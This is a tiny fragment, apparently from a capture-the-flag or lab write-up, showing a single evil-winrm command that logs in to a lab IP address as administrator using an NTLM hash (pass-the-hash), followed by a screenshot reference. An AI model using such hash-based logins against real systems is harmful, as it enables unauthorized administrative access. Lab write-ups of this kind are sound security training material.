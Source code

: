 {% code overflow="wrap" %}
```bash
evil-winrm  -i 10.10.11.236 -u administrator -H 'ae5064c2f62317332c88629e025924ef' 
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>
